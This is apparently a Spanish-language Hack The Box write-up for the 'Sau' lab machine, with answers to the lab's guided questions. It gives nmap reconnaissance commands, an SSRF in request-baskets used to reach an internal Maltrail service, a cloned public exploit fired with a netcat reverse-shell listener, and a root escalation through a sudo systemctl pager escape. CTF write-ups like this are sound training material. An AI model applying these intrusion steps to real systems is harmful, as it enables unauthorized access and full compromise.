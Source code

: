 ```yaml
---
title: Writeup sau - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - sau
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina sau en Hack The Box.
keywords:
  - writeup sau
  - hack the box sau
  - resolución máquina sau
  - sau hack the box
  - htb sau
---
```

-----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link] (https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Sau)
- 📺 **Resolución en vivo (completa)**:[Parte1](https://www.youtube.com/watch?v=5obRDrKVgDU)|[Parte2](https://www.youtube.com/watch?v=GYXUSWpVv6Q)|[Parte3](https://www.youtube.com/watch?v=Eood-ZOml3I)|[Parte4](https://www.youtube.com/watch?v=3JcR_UsS6O8)
- 🧠 **Explicación resumida**:

---

#easy #linux #nmap #ping #whatweb #git #sudo #sudo-l #tratamientotty #maltrailv053 #CVE-2023-26604 #SSRF #CVE-2023-27163 #cd #ls #gitclone 

---------
# Guided Mode

1)¿Cuál es el puerto TCP abierto más alto en la máquina de destino?
	55555

2)¿Cuál es el nombre del software de código abierto que utiliza la aplicación 55555?
	request-baskets

3)¿Cuál es la versión de request-baskets que se ejecuta en Sau?
	1.2.1

4)¿Cuál es el ID CVE 2023 para una falsificación de solicitud del lado del servidor (SSRF) en esta versión de request-baskets?
	CVE-2023-27163

5)¿Cuál es el nombre del software que «impulsa» la aplicación que se ejecuta en el puerto 80?
	Maltrail

6)Existe una vulnerabilidad de inyección de comandos no autenticados en MailTrail v0.53. ¿Cuál es la ruta relativa en el servidor web al que apunta este exploit?
	/login

7)¿Con qué usuario del sistema se ejecuta la aplicación Mailtrack en Sau?
	puma

*La pregunta anterior fue la flag de user.txt*
9)¿Cuál es la ruta completa al binario (sin argumentos) que el usuario puma puede ejecutar como root en Sau?
	/usr/bin/systemctl

10)¿Cuál es la cadena completa de la versión del sistema systemd instalado en Sau?
	systemd 245 (245.4-4ubuntu3.22)

11)¿Cuál es el ID CVE 2023 para una vulnerabilidad de escalada de privilegios locales en esta versión de systemd?
	CVE-2023-26604

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.11.224
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.11.224 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,55555 10.10.11.224 -oN target
```

![[Sau1.png]]

![[Sau2.png]]

![[Sau3.png]]

![[Sau4.png]]

![[Sau5.png]]
*TTL:* Maquina linux
*Puertos*
	`22`[[ssh]]
	`55555` HTTP
*Dato Importante:* Si bien desconocemos al principio que servicio esta corriendo el puerto *55555* vemos que dice HTTP en las peticiones asi que vamos a intentar conectarnos como si fuera una web

-----------
## Reconocimiento adicional

Para esta maquina vamos a tener que realizar un escaneo viendo los peurtos que estan filtrados

```shell
nmap -p- -vvv -sS --min-rate 5000 -n -Pn 10.10.11.224 -oG nuevo
nmap -sCV -p22,80,8338,55555 10.10.11.224 -oN puertosfiltered
```

![[Sau16.png]]

![[Sau15.png]]
*Puertos filtered relevantes:*
	`80` HTTP

--------

# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.11.224:55555
```
![[Sau18.png]]

-----------
# [[CVE-2023-27163]] y [[SSRF (Server-Side Request Forgery)]]

![[Sau17.png]]
Podemos abajo de todo que nos dice qeu es un request-baskets. Version 1.2.1
Vimos que era el [[CVE-2023-27163]] pero no encontramos ningun proyecto que pueda explotar esta vulnerabilidad que funcione.

Desde la pagina web vamos a crear un basket poniendo el nombre que querramos, entramos con el boton de *Open Basket* 
![[Sau14.png]]

Vamos a apretar sobre la tuerca que esta arriba a la derecha para configurar el basket, vamos a poner la URL a la que queremos redigir, que va a ser la ip local de la maquina victima, y el puerto `80` que vimos filtrado, por lo tanto no sabemos si esta abierto o cerrado. Por lo tanto seria http://127.0.0.1:80  Y tambien vamos a seleccionar las dos casillas de abajo de *Proxy Response* y *Expand Forward Path*

![[Sau13.png]]

Ahora entramos al basket mediante el link http://10.10.11.224:55555/testeo
![[Sau12.png]]
Ahora estamos ante un [[Maltrail v0.53]] y a continuacion lo vamos a vulnerar

-------
# [[Maltrail v0.53]]

[Exploit link de repositorio github](https://github.com/spookier/Maltrail-v0.53-Exploit)
Con [[git clone]] con el comando `git clone https://github.com/spookier/Maltrail-v0.53-Exploit` vamos clonar el repositorio en nuestra maquina. Luego con [[cd]] entramos con el comando `cd Maltrail-v0.53-Exploit`  y una vez dentro listamos el contenido de la carpeta con [[ls]] . Ahora que ya visualizamos el exploit lo vamos a ejecutar con `python3 exploit.py 10.10.16.9 443 http://10.10.11.224:55555/testeo` mientras estamos en escucha con [[nc -nlvp 443]]

![[Sau11.png]]

![[Sau10.png]]
Y listo ya ganamos acceso a la maquina siendo el usuario *puma*

------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios con [[CVE-2023-26604]]

### Enumeracion
Usamos [[sudo]] con el comando `sudo -l`
![[Sau9.png]]
Vemos que el binario */usr/bin/systemctl status trail.service* lo podemos ejecutar con privilegios sin otorgar contraseña 


Ahora vemos la version del binario con ``systemctl --version``

![[Sau8.png]]
Vemos que es la version *systemd 245 (245.4-4ubuntu3.22)* asi que buscando en internet encontramos la vulnerabilidad [[CVE-2023-26604]] 



### Explotacion 
[Con este articulo pudimos entender la vulnerabilidad](https://medium.com/%40zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)
Ejecutando el binario con privilegios `sudo /usr/bin/systemctl status trail.service` quedamos con el archivo como si fuera un modo paginate, asi que vamos a ejecutar el comando `!sh` para que nos de una shell, y ya somos root y tenemos una consola con privilegios
![[Sau7.png]]
Ahora solamente nos queda catear las flags

![[Sau6.png]]


-------
# Creditos
Writeup Oficial HackTheBox
https://medium.com/@sandra.sm/writeup-sau-htb-5cc449f0461f